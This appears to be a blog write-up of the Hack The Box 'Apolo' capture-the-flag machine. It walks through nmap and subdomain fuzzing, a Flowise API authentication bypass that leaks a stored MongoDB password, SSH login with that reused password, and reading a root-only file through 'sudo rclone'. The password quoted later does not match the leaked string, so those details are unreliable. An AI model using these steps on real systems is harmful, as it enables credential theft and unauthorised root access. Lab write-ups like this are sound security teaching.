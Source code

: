 ```yaml
---
title: HTB University CTF 2024 (Apolo)
description: On the 13th to 15th December 2024, I participated in HTB University CTF 2024 Binary Badlands with UiTM. I managed to solve Apolo challenge.
categories:
 - Writeup
 - HTB
tags:
- htb
- ctf
---
```


![Banner](/assets/img/htb-apolo-2024/banner.png)

## Enumeration Phase

### Nmap Scan

```zsh
$ nmap -sV -A -p- 10.129.246.166 > nmap.txt | cat nmap.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-13 22:10 +08
Nmap scan report for apolo.htb (10.129.246.166)
Host is up (0.027s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Apolo
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Enumeration

Add the following line to `/etc/hosts`{: .filepath} :
```
10.129.246.166  apolo.htb
```

Opening `apolo.htb`{: .filepath} in browser will show us the main page.

![Enum1](/assets/img/htb-apolo-2024/enum1.png)

Seems like there's nothing interesting here.

#### Subdomain Enumeration

```
ffuf -u http://apolo.htb -H "Host: FUZZ.apolo.htb" -w /path/to/wordlist -fc 302
```

![Enum2](/assets/img/htb-apolo-2024/enum2.png)

> We got a hit at `ai.apolo.htb`{: .filepath}. Now add it to `/etc/hosts`{: .filepath} just like earlier.
{: .prompt-info }

```
10.129.246.166  ai.apolo.htb
```

Opening `ai.apolo.htb`{: .filepath} in our browser will show some type of login page (I forgot to take a screenshot).

## Exploitation Phase
### Finding Vulnerability: Flowise Authentication Bypass

When searching for exploits, I stumbled upon [CVE-2024-31621](https://www.exploit-db.com/exploits/52001).

> **CVE-2024-31621** is a critical vulnerability identified in Flowise, a product by FlowiseAI Inc., affecting versions up to and including 1.6.2. This vulnerability allows a remote attacker to execute arbitrary code by sending a crafted script to the api/v1 component
{: .prompt-warning }

Sending a request at `/API/V1/credentials`{: .filepath} will returns this response.

```json
  {
    "id": "6cfda83a-b055-4fd8-a040-57e5f1dae2eb",
    "name": "MongoDB",
    "credentialName": "mongoDBUrlApi",
    "createdDate": "2024-11-14T09:02:56.000Z",
    "updatedDate": "2024-11-14T09:02:56.000Z"
  }
```
Using the **id** earlier we can send another request at `/API/V1/credentials/6cfda83a-b055-4fd8-a040-57e5f1dae2eb`{: .filepath}. This will returns.

```json
{
  "id": "6cfda83a-b055-4fd8-a040-57e5f1dae2eb",
  "name": "MongoDB",
  "credentialName": "mongoDBUrlApi",
  "createdDate": "2024-11-14T09:02:56.000Z",
  "updatedDate": "2024-11-14T09:02:56.000Z",
  "plainDataObj": {
    "mongoDBConnectorUrl": "mongodb+srv://lewis:Compl3xi3Ty!_W1n3@cluster0.mongodb.net/myDatabase?retryWrites=true&w=majority"
  }
  ```
  Here's how it looks at Burpsuite.

![User1](/assets/img/htb-apolo-2024/user1.png)

### User Flag

From the response earlier, managed to obtain a credential:
`lewis:Compl3xi3Ty!` 

Now we can SSH as **lewis** and get the User Flag.

![User-Flag](/assets/img/htb-apolo-2024/userflag.png)

```
HTB{llm_ex9l01t_4_RC3}
```
**User Flag:** `HTB{llm_ex9l01t_4_RC3}`

### Root Flag
#### Privilege Escalation
```zsh
sudo -l
```

Seems like **lewis** has permission to use sudo on `rclone`.

![Root1](/assets/img/htb-apolo-2024/root1.png)

Now we can inject our command to get the Root Flag

```zsh
sudo rclone cat /root/flag.txt
```

![Root-Flag](/assets/img/htb-apolo-2024/rootflag.png)

```
HTB{cl0n3_rc3_f1l3}
```
**Root Flag:** `HTB{cl0n3_rc3_f1l3}`

## Summary

- **API Vulnerabilities:** A case-sensitivity flaw in Flowise's authentication middleware has led to unauthorized API access. Highlighting the importance of robust validation mechanisms.
- **Credential Reuse:** The reuse of MongoDB credentials for SSH highlighted the critical importance of using unique credentials for different services.
- **Misconfigured Sudo Permissions:** Granting unrestricted sudo access to a powerful tool like Rclone can result in privilege escalation. Adhering to the principle of least privilege is essential.